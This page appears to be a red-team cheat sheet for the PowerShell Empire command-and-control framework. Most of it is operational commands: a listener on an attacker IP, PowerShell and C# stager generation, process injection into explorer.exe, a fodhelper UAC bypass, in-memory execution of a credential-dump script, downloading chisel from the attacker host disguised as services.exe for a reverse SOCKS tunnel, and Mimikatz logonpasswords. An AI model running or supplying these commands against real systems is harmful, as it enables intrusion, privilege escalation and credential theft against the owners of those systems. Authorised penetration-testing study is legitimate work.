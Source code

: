 # 🔧 Empire

## Empire

* ​[https://xakep.ru/2020/06/03/powershell-empire/](https://xakep.ru/2020/06/03/powershell-empire/)​

## Install <a href="#install" id="install"></a>

* ​[https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)​

```
$ git clone --recursive https://github.com/BC-SECURITY/Empire.git$ cd Empire$ sudo ./setup/install.sh$ sudo poetry install
```

To compile C# agents ([Covenant](https://github.com/cobbr/Covenant) and [Sharpire](https://github.com/0xbadjuju/Sharpire)) [install](https://docs.microsoft.com/en-us/dotnet/core/install/linux-debian#supported-distributions) .NET SDK 3.1:

```
$ wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb -O packages-microsoft-prod.deb$ sudo dpkg -i packages-microsoft-prod.deb$ rm packages-microsoft-prod.deb​$ sudo apt-get update; \  sudo apt-get install -y apt-transport-https && \  sudo apt-get update && \  sudo apt-get install -y dotnet-sdk-3.1​$ sudo apt-get update; \  sudo apt-get install -y apt-transport-https && \  sudo apt-get update && \  sudo apt-get install -y aspnetcore-runtime-3.1
```

## Run <a href="#run" id="run"></a>



```
$ ./ps-empire server [--restip 127.0.0.1 --username snovvcrash --password 'Passw0rd!']$ ./ps-empire client
```

Reset the database:

```
$ ./ps-empire server --reset
```

## Cheatsheet <a href="#cheatsheet" id="cheatsheet"></a>

Prepare a listener:

```
(Empire) > listeners(Empire: listeners) > uselistener http(Empire: uselistener/http) > set Name http1(Empire: uselistener/http) > set Host 10.10.13.37(Empire: uselistener/http) > set Port 80(Empire: uselistener/http) > execute
```

Generate a PowerShell stager:

```
(Empire: listeners) > usestager multi/launcher(Empire: usestager/multi/launcher) > set Listener http1(Empire: usestager/multi/launcher) > set OutFile pwsh.ps1(Empire: usestager/multi/launcher) > generate
```

Generate a C# stager:

```
(Empire: listeners) > useplugin csharpserver(Empire: useplugin/csharpserver) > set status start(Empire: useplugin/csharpserver) > execute(Empire: useplugin/csharpserver) > usestager windows/csharp_exe(Empire: usestager/windows/csharp_exe) > set Listener http1(Empire: usestager/windows/csharp_exe) > set OutFile csharp.exe(Empire: usestager/windows/csharp_exe) > generate
```

Re-inject into an interactive process (e.g., `explorer.exe`):

```
(Empire: listeners) > agents(Empire: agents) > rename LKH7SD3V A1(Empire: agents) > interact A1(Empire: A1) > sysinfo(Empire: A1) > shell Get-Process explorer(Empire: A1) > psinject exch <EXPLORER_EXE_PID>
```

Bypass UAC to get a high integrity process:

```
(Empire: A1) > shell whoami /priv(Empire: A1) > usemodule privesc/bypassuac_fodhelper(Empire: powershell/privesc/bypassuac_fodhelper) > set Listener http1(Empire: powershell/privesc/bypassuac_fodhelper) > run
```

Execute a PowerShell script from memory (e.g., [`Invoke-SharpSecDump.ps1`](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpSecDump.ps1)):

```
(Empire: A1) > shell whoami /priv(Empire: A1) > usemodule management/invoke_script(Empire: powershell/management/invoke_script) > set ScriptPath /home/snovvcrash/tools/dump.ps1(Empire: powershell/management/invoke_script) > set ScriptCmd Invoke-SharpSecDump -C "-tager=127.0.0.1"(Empire: powershell/management/invoke_script) > run
```

Start a process in the background (e.g., [chisel](https://github.com/jpillora/chisel) SOCKS proxy):

```
(Empire: A1) > shell IWR http://10.10.13.37:8080/chisel.exe -OutFile C:\Windows\services.exe -UseBasicParsing(Empire: A1) > shell Start-Process -NoNewWindow -FilePath C:\Windows\services.exe -ArgumentList "client 10.10.13.37:8000 R:socks"
```

Invoke a custom Mimikatz command:

```
(Empire: A1) > usemodule credentials/mimikatz/command(Empire: powershell/credentials/mimikatz/command) > set Command '"privilege::debug" "token::elevate" "ts::logonpasswords" "exit"'(Empire: powershell/credentials/mimikatz/command) > run
```

## Plugins <a href="#plugins" id="plugins"></a>

* ​[https://github.com/BC-SECURITY/SocksProxyServer-Plugin](https://github.com/BC-SECURITY/SocksProxyServer-Plugin)​
* ​[https://github.com/BC-SECURITY/ChiselServer-Plugin](https://github.com/BC-SECURITY/ChiselServer-Plugin)​

## Customizing Agents <a href="#customizing-agents" id="customizing-agents"></a>

* ​[https://s3cur3th1ssh1t.github.io/Customizing\_C2\_Frameworks/](https://s3cur3th1ssh1t.github.io/Customizing\_C2\_Frameworks/)
